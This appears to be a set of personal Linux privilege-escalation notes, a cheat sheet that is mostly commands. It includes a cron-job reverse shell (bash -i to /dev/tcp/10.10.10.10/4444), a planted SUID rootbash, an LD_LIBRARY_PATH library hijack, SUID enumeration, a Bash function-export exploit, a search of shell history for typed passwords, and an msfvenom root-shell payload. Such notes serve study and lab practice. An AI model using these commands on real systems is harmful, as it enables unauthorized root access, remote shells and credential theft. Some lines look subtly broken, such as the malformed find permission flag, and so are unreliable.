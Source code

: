 		- I have kept the code in library_path.c somewhere else
			- `gcc -o /tmp/'libraryName' -shared -fPIC ~/library_path.c`
			- sudo LD_LIBRARY_PATH=/tmp `'programName'`
			- Welcome to root

- Cron Jobs - File Permissions
	- See if there's one that you can write to, if it's run by root then, add this sucker to it:
	- `#!/bin/bash` 
	  `bash -i >& /dev/tcp/10.10.10.10/4444 0>&1`
	  (changing details where relevant)

- Cron Jobs - PATH Environment Variable
	- Check to see if you have access to any directory given in PATH of `cat /etc/crontabs`
	- If you do, then woo! 
	- Create a file in there that has this:
		```bash
		#!/bin/bash
		cp /bin/bash /tmp/rootbash
		chmod +xs /tmp/rootbash
```
	- Make sure the file is executable
	- Wait for the cronjob to run
	- Then run the /tmp/rootbash command with a `-p` to gain a shell with root priv

- Finding SUID/GUID Executables
	- `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
- Finding SUID/GUID files:
	- `find / -perm -u=s -type f 2>/dev/null`
	- `find / -perm u=g -type f 2>/dev/null`
- Another handy command:
	- `find / -user root -perm -4000 -exec ls -ldb {} \;`
- SUID/SGID Executables - Shared Object Injections
- SUID/SGID Execs - Environment Variables
- SUID/SGID Execs - Abusing Shell Features
	- For example Bash versions earlier than 4.2-048 allowed one to define shell functions with names that resemble file paths
		- ie creating a function called `/usr/sbin/service`
			- `function /usr/sbin/service { /bin/bash -p; }`
		- Then exporting it
			- `export -f /usr/sbin/service`
		- Then running a service that would sit in that directory
		- You could find this by finding a SUID executable, doing a `strings` on it to see if it points out to any such directory
		- Bearing in mind if the shell would allow something like this ofcourse..

- Password & Keys
	- Users sometimes might type their password into the CLI instead of in the password prompt
		- This would then be in their history
	- Viewing history
		- `cat ~/.*history | less`

- NFS
	- Files created via NFS inherit the remote user's ID. 
	- If the user is root, and root squashing is enabled, the ID will instead be set to the 'nobody' user
	- Check NFS share configurations
		- `cat /etc/exports`
	- *(needing to add more here)*

- Creating a simple privileged root shell payload with msfvenom
	- `msfvenom -p 'distro'/exec CMD="/bin/bash -p" -f elf -o /tmp/'ploadName'`

- Kernel Exploits
	- Can leave the system in an unstable state
	- Run them as a last resort
```